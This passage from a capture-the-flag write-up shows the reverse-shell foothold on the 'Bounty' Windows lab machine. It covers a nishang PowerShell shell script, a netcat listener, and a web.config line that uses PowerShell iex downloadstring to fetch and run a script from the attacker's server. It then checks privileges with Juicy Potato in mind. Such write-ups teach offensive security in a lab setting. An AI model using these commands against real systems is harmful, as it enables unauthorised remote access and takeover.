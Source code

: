 
Okay now let's upload a reverse shell script (via [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)) and execute it from the web server:

```bash
$ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 shell.ps1
$ echo "" >> shell.ps1 
$ echo "Invoke-PowerShellTcp -Reverse -IPAddress $(vpnip) -Port 1234" >> shell.ps1 
```

- Run a listener with `rlwrap nc -lnvp 1234` as well as a web server via `python3 -m http.server 80`.

- Replace the `Set cmd` variable in the `web.config` file by this one:

```xml
Set cmd = rs.Exec("cmd /c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.12/shell.ps1')")
```

Upload the new `web.config` file and open it from your web browser / or by using `curl` and we got a shell:

![](/assets/img/htb/machines/windows/easy/bounty/reverse_shell.png)

## Privesc

If we take a look at our privileges, we can see that `SeImpersonatePrivilege` is enabled so we probably can run [**Juicy Potato**](https://github.com/ohpe/juicy-potato) exploit:

```cmd
PS C:\windows\system32\inetsrv> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

